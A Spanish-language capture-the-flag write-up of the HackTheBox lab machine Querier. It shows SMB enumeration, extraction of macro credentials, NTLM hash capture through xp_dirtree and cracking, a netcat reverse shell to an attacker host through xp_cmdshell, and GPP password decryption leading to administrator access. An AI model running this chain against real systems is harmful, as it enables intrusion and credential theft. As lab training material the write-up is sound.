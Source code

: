 10.10.10.125 - Querier

![Querier](https://user-images.githubusercontent.com/96772264/202670219-d31b9300-527b-4c64-969f-b9527550057e.png)

----------------------

# Part 1: Enmeración
 
Puertos abiertos 135(rpc),139,445(smb),1433,5985. Nmap nos dice que:  
- 1433 -> puerto Microsoft SQL . Nombre del sistema QUERIER, Dominio HTB.LOCAL  
- Rpc sin credenciales ```rpcclient -U "" 10.10.10.125 -N``` -> Acceso denegado  

Como está el smb abierto miraremos si podemos acceder a algún archivo.
```console
└─$ smbmap -H 10.10.10.125 -u "test"
	Reports                        READ ONLY
└─$ smbclient "//10.10.10.125/Reports" -N
smb: \> dir
Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019
smb: \> get "Currency Volume Report.xlsm"
```
Un archivo xlsm es un archivo de hojas de texto (el excel de toda la vida), que e abre con libreoffice. Abrimos la hoja de calculo pero aparte de ques está vacía 
dice que tiene macros (código)

![querier1](https://user-images.githubusercontent.com/96772264/202670532-f9871866-0f10-453e-9ecd-dfde1143e3a1.PNG)

Las macros se leen con una herramienta llamada olevba:  ```sudo -H pip install -U oletools[full]```
```console
└─$ olevba "Currency Volume Report.xlsm"
Private Sub Connect()
Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset
Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;
Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10; conn.Open

If conn.State = adStateOpen Then
  MsgBox "connection successful" 
  Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close
End If
```

Según esto se está conectando a una base de datos sql ("volume") con las creds *"reporting:PcwTWTHRwryjc$c6"* para meter esos datos en la hoja de calculo.
Como son creds de una base de datos, podemos usarlas nosotros tambien ya que tenemos un puerto que usa windowssql:
```console
└─$ /usr/bin/impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1

# No, tenemos permiso así que no hay comandos, pero a lo mejor podemos capturar un hash
SQL> xp_dirtree "\\10.10.14.12\carpeta"
└─$ /usr/bin/impacket-smbserver carpeta $(pwd) -smb2support
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b5d17ef4aa88056ad273977e56a155fc:010100000000000080407d3ce8f9d8016f28bccc5409518100000000010010006f006100710055006900550049004900030010006f0061007100550069005500490049000200100058005a005000540078005500610057000400100058005a005000540078005500610057000700080080407d3ce8f9d801060004000200000008003000300000000000000000000000003000009b175c468e21ef38d90e68aba21eadedb3bfaec84eab5a5cf439e8d79e35d69e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
corporate568     (mssql-svc)

└─$ /usr/bin/impacket-mssqlclient mssql-svc:'corporate568'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1; reconfigure
SQL> sp_configure "xp_cmdshell",1; reconfigure
SQL> xp_cmdshell "whoami"
querier\mssql-svc
```
Como ya tengo ejecución remota de comandos, lo más comodo es traerse un binario nc.exe a donde se está ofreciendo la carpeta por smb para subirlo/ejecutarlo en la 
máquina víctima. 

```console
SQL> xp_cmdshell \\10.10.14.12\carpeta\nc.exe -e cmd.exe 10.10.14.12 443
└─$ rlwrap nc -lnvp 443
C:\Windows\system32>
C:\Users\mssql-svc\Desktop> copy \\10.10.14.12\carpeta\enumeracion_windows.bat
```
El script nos encontró una ruta groups.xml:  
> *C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml*.   
Ahí había una clave cpassword que se rompe con ggp-decrypt:  
```console
└─$ gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!

└─$ impacket-wmiexec 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
C:\>whoami
querier\administrator
```
